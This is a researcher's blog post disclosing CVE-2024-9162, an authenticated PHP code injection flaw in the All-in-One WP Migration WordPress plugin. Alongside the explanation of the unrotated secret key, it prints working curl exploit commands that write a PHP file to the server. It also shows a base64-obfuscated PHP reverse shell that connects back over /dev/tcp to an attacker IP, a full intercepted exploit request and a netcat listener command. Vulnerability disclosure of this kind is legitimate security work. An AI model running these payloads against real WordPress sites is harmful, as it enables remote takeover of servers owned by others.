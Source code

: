 +++
title = 'All-in-One WP Migration and Backup <= 7.86 - Authenticated (Administrator+) Arbitrary PHP Code Injection'
date = 2024-10-27T05:18:12+00:00
hideToc = true
+++

Around the time Def Con was happening this year I was sitting at home feeling left out. That made me feel hacky, but I don't get the same joy from CTFs at the moment that I used to. So, I decided to start hunting for CVEs. That lead to finding [CVE-2024-9162](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/all-in-one-wp-migration/all-in-one-wp-migration-and-backup-786-authenticated-administrator-arbitrary-php-code-injection), which was just released today, along with the idea for a larger project that has resulted in a few more vulnerabilities yet to be disclosed. 

### CVE-2024-9162

The [All-in-One WP Migration plugin for WordPress](https://wordpress.org/plugins/all-in-one-wp-migration/) is vulnerable to arbitrary PHP Code Injection due to missing file type validation during the export in all versions up to, and including, 7.86. This makes it possible for authenticated attackers, with Administrator-level access and above, to create an export file with the .php extension on the affected site's server, adding an arbitrary PHP code to it, which may make remote code execution possible.

### TL;DR Exploits
* [CVE-2024-9162.sh](https://github.com/d0n601/CVE-2024-9162/blob/main/CVE-2024-9162.sh)
* [CVE-2024-9162.py](https://github.com/d0n601/CVE-2024-9162/blob/main/CVE-2024-9162.py)

### Details
The `ai1wm_secret_key` is a 12 character alphanumeric string created when the plugin is initialized. The key is **never rotated**, **does not expire**, and is **stored plain text** in the `wp_options` table.

```sql
mysql> SELECT option_name,option_value FROM wp_options WHERE option_name='ai1wm_secret_key';
+------------------+--------------+
| option_name      | option_value |
+------------------+--------------+
| ai1wm_secret_key | PwrqqK3UHQJo |
+------------------+--------------+
1 row in set (0.00 sec)
```

### Basic Proof of Concept:
This will create a php file containing a call to `phpinfo();`, which can be replaced with a better payload as seen in the manual reproduction section. Notice there is no authorization required beyond the secret key parameter. 
```bash
VICTIM_URL=https://wordpress.hacker
XFILE_NAME=lolz.php
XDIRECTORY_NAME=testauto
SECRET_KEY=PwrqqK3UHQJo

PRIORITY_INT=30
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"

PRIORITY_INT=50
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"

PRIORITY_INT=60
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"
```
![Screenshot from 2024-08-13 15-36-42](/posts/images/CVE-2024-9162/1.png)


### Manually To Reproduce:
It should be noted that the `php` file created via these steps will first appear in `wp-content/plugins/all-in-one-wp-migration/storage/EXPLOITDIR/EXPLOITFILE.php` before being deleted by the script and moved to `wp-content/ai1wm-backups/reverse_shell.php`. 

* Log in, Click all in one WP migration export to access the "Export Site" [page](https://wordpress.hacker/wp-admin/admin.php?page=ai1wm_export).
  * ![Screenshot from 2024-08-12 15-40-48](/posts/images/CVE-2024-9162/2.png)

*  In the **Find * Replace with** `<another-text>` **in the database**.
  * Input `*` into the *Find* box.
  * Input your crafted php payload into  into the *Replae With* box (`phpinfo();`, web shell, etc).
    * Reverse Shell Example: 
    ```php
    <?php eval( base64_decode('ZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMDAuODYvNDQ0NCAwPiYxJyAiKTs=')); ?>
    ```
    * This will decode to 
    ```php
    exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.100.86/4444 0>&1' ");
    ```
  *  ![Screenshot from 2024-08-12 15-38-01](/posts/images/CVE-2024-9162/3.png)
* Setup Burp or similar tool and begin to proxy the traffic, then click the green "Export To -> File" option.
  *  ![Screenshot from 2024-08-12 15-42-30](/posts/images/CVE-2024-9162/4.png)
  *  ![Screenshot from 2024-08-12 15-39-38](/posts/images/CVE-2024-9162/5.png)
* Forward the first request: `POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/1.1`, without manipulation.
* Forward: `GET /wp-admin/admin-ajax.php?action=ai1wm_status&ai1wm_import=1&secret_key=OYXj1AIdQUnc&_=1723495770325 HTTP/2`.
* Intercepting the request to `POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/2`
   * Modify the `archive` parameter to whatever name you like, and the `.php` extension, and then forward the request.
   *  ```
        POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/2
        Host: wordpress.hacker
        Cookie: wordpress_sec_1e8abd3ff1d2f462f071b6ee87f18dce=admin%7C1723667674%7Czq81SUmQ7zq0jft2M2D19aFUOZDjhqND0rKqJp0XIrb%7Cc65dd152f0c184235df35d5dfa28c50624b9f9a2fb01efb5077b150df76d286f; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_1e8abd3ff1d2f462f071b6ee87f18dce=admin%7C1723667674%7Czq81SUmQ7zq0jft2M2D19aFUOZDjhqND0rKqJp0XIrb%7C5c992aef75e3896a0909b9d480ae9e6505d89428c6975a490c30ce5b791c6bfe; wp-settings-time-1=1723500701
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
        Accept: application/json, text/javascript, */*; q=0.01
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Referer: https://wordpress.hacker/wp-admin/admin.php?page=ai1wm_export
        Content-Type: application/x-www-form-urlencoded; charset=UTF-8
        X-Requested-With: XMLHttpRequest
        Content-Length: 883
        Origin: https://wordpress.hacker
        Dnt: 1
        Sec-Gpc: 1
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Te: trailers
              action=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+eval(+base64_decode('ZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMDAuODYvNDQ0NCAwPiYxJyAiKTs%3D'))%3B+%3F%3E&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=1j5v4ss1ls45&file=1&secret_key=OYXj1AIdQUnc&priority=10&archive=reverse_shell.php
       ```
    * ![Screenshot from 2024-08-12](/posts/images/CVE-2024-9162/fivee.png)
    * Turn off interception and let all other requests flow through until the job is completed and a download button is presented on the screen.
      * ![Screenshot from 2024-08-12 15-30-06](/posts/images/CVE-2024-9162/6.png)
    * Notice that the link to the downoad is a link to a php file containing the payload `https://wordpress.hacker/wp-content/ai1wm-backups/reverse_shell.php`.
    * Fire up a netcat listener on an attacking machine to catch the reverse shell `nc -lnvp 4444`.
    * Click the download button and catch the reverse shell.
      *   ![Screenshot from 2024-08-12 15-34-27](/posts/images/CVE-2024-9162/7.png)



